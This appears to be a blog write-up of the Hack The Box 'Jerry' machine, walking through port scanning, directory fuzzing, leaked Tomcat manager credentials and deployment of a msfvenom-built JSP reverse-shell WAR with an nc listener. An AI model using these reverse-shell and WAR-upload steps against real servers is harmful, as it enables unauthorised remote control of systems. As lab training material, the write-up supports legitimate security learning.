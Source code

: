 ```yaml
---
title: "Jerry"
date: 2023-09-11T21:46:53+02:00
tags: ["windows","web"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A friendly linux machine which has a only http port which is vulnerable to WAR files upload. PrivEsc for this machine is not needed."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Jerry
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Jerry

![Untitled](/HTB/jerry-icon.png)

## Tools Used

- nmap
- msfvenom

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

Only one http server in port 8080 running a website powered by Apache Tomcat.

## Enumeration

![Untitled](/HTB/jerry-1.png)

The website looks like a default Apache Tomcat website.

Let’s fuzz the page

```bash
gobuster dir -u http://$IP:8080/ -w ~/Documents/wordlists/KaliLists/dirb/common.txt -x php,html,css,js,py,txt -t 100 -o fuzz | tee fuzz.save
```

```bash
/aux                  (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/tomcat.css           (Status: 200) [Size: 5931]
```

The manager directory called my attention, could be a potential admin page.

When I try to access to `/manager` directory a prompt with a login form is displayed so I decided to put default/common credentials.

But when I failed the first login attempt a server error is displayed but leaking the credentials

![Untitled](/HTB/jerry-2.png)

![Untitled](/HTB/jerry-3.png)

Once inside we can see a admin tool where we are able to upload WAR files.

## Exploiting

After investigating about WAR files, I found a blog talking about how to build a reverse shell for Tomcat servers.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f war -o shell.war
```

The above command builds a Java JSP reverse shell with war extension.

Now it’s time to upload and deploy the file.

![Untitled](/HTB/jerry-4.png)

A new directory is displayed now in the admin tool, let’s access to `/shell` but before we need to set a nc listener.

```bash
nc -lv 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/jerry-5.png)

**NT / AUTHORITY SYSTEM** without privEsc, I think it is the easiest machine so far.

## Flag(s)

![Untitled](/HTB/jerry-6.png)

![Untitled](/HTB/jerry-7.png)

